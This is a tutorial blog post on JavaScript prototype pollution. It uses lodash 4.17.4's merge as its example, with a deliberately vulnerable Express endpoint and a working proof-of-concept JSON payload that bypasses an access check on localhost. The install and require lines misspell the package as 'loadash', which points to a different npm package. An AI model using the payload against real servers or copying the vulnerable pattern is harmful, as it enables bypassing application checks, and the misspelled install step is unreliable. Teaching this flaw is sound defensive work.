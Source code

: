 --
layout: post
title: "Prototype pollution"
--

# A brief overview on prototype pollution

## What is a prototype
Javascript is a prototypal language this means that all objects within it have a prototype that is shared between objects of the same type. The prototype contains methods and properties that are useful for all objects of that type. This prototype is accesible from objects via the `__proto__` property.

For example:
`Number.prototype` contains the method toFixed which converts the number to a fixed string. All numbers have this method
```javascript
(1).toFixed === (-10.5).toFixed // true
```

## Modifying prototypes
Because prototypes are shared if you modify the prototype of an object all objects of the same type will have the new prototype. 

For example if I wanted to add `isNumber = true` to all numbers I could use `Number.prototype` or the `__proto__` of any number
```javascript
Number.prototype.isNumber = true;
(1).isNumber // true
Infinity.isNumber // true
```
```javascript
(10).__proto__.isNumber = true;
(10).isNumber // true
(-0xffff).isNumber // true
"10".isNumber // undefined
```
Notice how as `"10"` is a different type (`String`) it has a different prototype so isNumber is undefined.

### Side note: root prototype
There is however a root prototype that is shared by most objects.
```javascript
// Note there is varying depths of prototypes to reach protypes
// This depends on how many classes a class extends
(1).__proto__.__proto__.foo = 'bar';
(5).foo; // 'bar'
({}).foo; // 'bar'
"example".foo; // 'bar'
```

## Prototype pollution
Prototype pollution is when a user's input is able to modify a prototype hence allowing them control other other parts of the code.

### JSON.parse
Javascript's default JSON parse is not vulnerable to prototype pollution, if the user input contains a `__proto__` property the reference to the actual prototype is replaced with a new object defined by the JSON. This is due to the way javascript works, if you completly overwrite the `__proto__` property you are replacing the reference to the prototype of the object a new object instead of inserting a property to the global type prototype.
```javascript
let obj = JSON.parse('{"__proto__":{"foo":"bar"}}');
console.log(obj); // {'__proto__':{'foo:'bar'}};
console.log(obj.foo); // undefined
console.log(obj.__proto__.foo); // 'bar'
console.log(({}).foo); // undefined
```
is the same as
```javascript
let obj = {};
obj.__proto__ = {'foo':'bar'};
console.log(obj); // {'__proto__':{'foo:'bar'}};
console.log(obj.foo); // undefined
console.log(obj.__proto__.foo); // 'bar'
console.log(({}).foo); // undefined
```

### Actual vulnerabilites
Because we cannot overwrite the `__proto__` with a new object it is normally code that copies from user input that is vulnerable to prototype pollution. There are several libraries that have been vulnerable, I am going to use lodash version 4.17.4 as an example.

Lodash has a [merge](https://lodash.com/docs/4.17.4#merge) function that copies all the properties from object to another object **recursively**.

The problem with the vulnerable version is when it _merges_ the objects it will insert objects into the recieving objects prototype if the other object has a `__proto__` property.

_The following code requires lodash to be installed (I recommend using nodejs, `npm i loadash@4.17.4`)_
```javascript
const _ = require('loadash'); // import lodash

// Create a object with __proto__ property that isn't actually a prototype
let obj = {};
obj.__proto__ = {'foo':'bar'};

let dest = {'bar':'foo'};
// Perform the merge
_.merge(dest, obj);

// When it performs the copy it finds the __proto__ property in obj (and is an object)
// it checks to see if __proto__ exists in dest
// as __proto__ refers to the global prototype object it copies the properties from
// obj.__proto__ to dest.__proto__ (into the global prototype)
// hence now Object.prototype.foo = 'bar'

// Now a pollution has been performed we can see the effects
console.log(dest.foo); // 'bar'
let newObj = {'what': 'a new object'};
console.log(newObj.foo); // 'bar'

// This is especially dangerous if the attacker can add a function, 
// or a property that gets evaluated unsafely later
```

#### Example
Example of passing a check on a vulnerable express web server
```javascript
const express = require('express');
const _ = require('loadash');

const app = express();

app.use(express.json()); // Automatically JSON.parse uploaded data
app.post('/api/foo', (req, res) => {
  let data = _.merge({}, req.body); // Merge object with user content
  let checks = {};
  if (data.type === 'apple') { // If data.type is apple
    checks.isApple = true; // Set check to passed
  }
  // If check passed return a 200, else return a 400
  if (checks.isApple === true) return res.sendStatus(200);
  res.sendStatus(400);
});

app.listen(8000);
```
I am going to use [fetch](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/fetch) to send requests from the server but anything that can send HTTP post requests would work.

Normal user:
```javascript
const res = await fetch('http://127.0.0.1:8000/api/foo', {
  method:'POST',
  headers:{'Content-Type':'application/json'},
  body: JSON.stringify({type: 'apple'}),
});
console.log(res.status); // 200
```
```javascript
const res = await fetch('http://127.0.0.1:8000/api/foo', {
  method:'POST',
  headers:{'Content-Type':'application/json'},
  body: JSON.stringify({type: 'orange'}),
});
console.log(res.status); // 400
```

Using prototype pollution:
```javascript
// Notes:
// I don't use JSON.stringify here as it would ignore any __proto__ properties
// Make sure what you send (body) is actually valid JSON otherwise server code won't be able to parse it
// Make sure you set the Header 'Content-Type' to 'application/json' otherwise the express json middleware won't parse the JSON
const res = await fetch('http://127.0.0.1:8000/api/foo', {
  method:'POST',
  headers:{'Content-Type':'application/json'},
  body: '{"type":"orange","__proto__":{"isApple":true}}',
});
console.log(res.status); // 200
```
